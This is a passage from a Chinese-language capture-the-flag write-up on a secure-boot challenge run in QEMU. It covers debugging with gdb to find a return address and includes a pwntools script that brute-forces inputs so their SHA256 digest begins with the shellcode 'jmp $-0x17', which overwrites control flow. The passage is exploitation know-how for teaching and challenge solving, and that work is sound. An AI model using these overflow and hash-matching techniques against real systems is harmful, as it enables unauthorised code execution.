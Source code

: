 全都是 rwxp！我们可以进行任意的修改操作。跳转的距离就是 0x7B - 0x64 = 0x17。所以任意写的过程中，使得修改后的汇编位 `jmp $-0x17` 即可在后面完成跳转。

接下来就是调试啦，我们要找到真实的环境中相应汇编的位置。

## 调试

在 `run.py` 中 `qemu` 的一大串参数中加入 `-s` 参数，之后就可以本地通过 gdb `target remote localhost:1234` 进行调试了。细节就不多说了，由于它会对输入也有一个处理，在进入输入函数之后通过 gdb 连接，此时位于输入处理函数中。我们看 stack，在 `rsp + 120` 的位置能看到返回地址

![](https://raw.githubusercontent.com/40m41h42t/Images/master/2019/07/secboot-3.png)

对应的是 IDA 中的

```
.text:000000000000FF5E                 jmp     loc_FEDE
```

这样我们就可以通过偏移获得 0x1007B 的位置：0x1007B - 0xFF5E + 0x67DAF5E = 0x67DB07B。

接下来我们要编写 payload 了。由于其中会进行一次 SHA256，因此我们要让 SHA256 的输出等于 payload：

```python
from pwn import *
import hashlib
import binascii

target = 0x67db07b

def find_sha(myasm):
    for i in xrange(1000000):
        payload = str(i)
        payload = payload.ljust(128, 'a')
        payload += '\x00' * 8 # 截断
        payload += p32(target)
        if binascii.unhexlify(hashlib.sha256(payload).hexdigest())[0:len(myasm)] == myasm:
            print('[1] payload: ', payload)
            payload = str(i)
            payload = payload.ljust(136, 'a')
            payload += p32(target)
            print('[2] payload: ', payload)
            return payload

find_sha(asm('jmp $-0x17'))
```

这样我们就构造好了 payload。开始寻找的时候为什么要用 `payload += 'x00'*8` 呢？因为我们覆盖了 res 那一部分，而 res 的值是会随着输入而变化的，因此第 128 位到 136 位都会被修改位为 NULL。而后面将这里填充可能是输入函数不会处理 `\x00` 这样的值，所以我们还得补充上去。

我们调试一下。下面汇编位置在输入后， Hash 函数之前。

```
.text:000000000000FF6E                 movzx   eax, [rsp+0E8h+i]
.text:000000000000FF76                 cdqe
.text:000000000000FF78                 mov     [rsp+rax+0E8h+buf], 0
```
